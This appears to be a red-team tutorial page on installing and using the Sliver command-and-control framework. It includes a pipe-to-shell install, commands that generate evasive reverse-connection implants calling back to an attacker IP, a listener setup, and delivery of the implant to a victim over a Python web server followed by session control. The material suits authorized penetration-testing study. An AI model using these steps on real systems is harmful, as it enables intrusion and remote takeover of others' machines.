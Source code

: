 # Sliver

[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)

## Installing

It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system.

### Pre-reqs

```bash
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```

## Running

This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.

### Install on system

```bash
curl https://sliver.sh/install | sudo bash
```

Run it

```bash
sliver
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

### Standalone release

```bash
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Unzip the file

```bash
unzip sliver-server_linux.zip
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Make it executable

```bash
chmod +x sliver-server
```

run it

```bash
sudo ./sliver-server
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Usage

### Making a payload

to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.

```bash
generate -m (attacker ip) -e
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The executable file will be in the folder where sliver was run.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Making .dll payload

```bash
generate —mtls (attacker ip) —format shared —skip-symbols
```

### Starting The MTLS Listener

The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.

```bash
mtls
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.

```bash
python3 -m http.server 8008
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When the server is being accessed and a file is being downloaded

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the victim machine go to the webserver and click on the file you want to download

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once it is executed, we should see the connection from the sliver terminal.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also check on active sessions or alive sessions with `sessions`

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Connect to the session

```bash
sessions -i (session id)
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Run whatever commands you may need/want:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
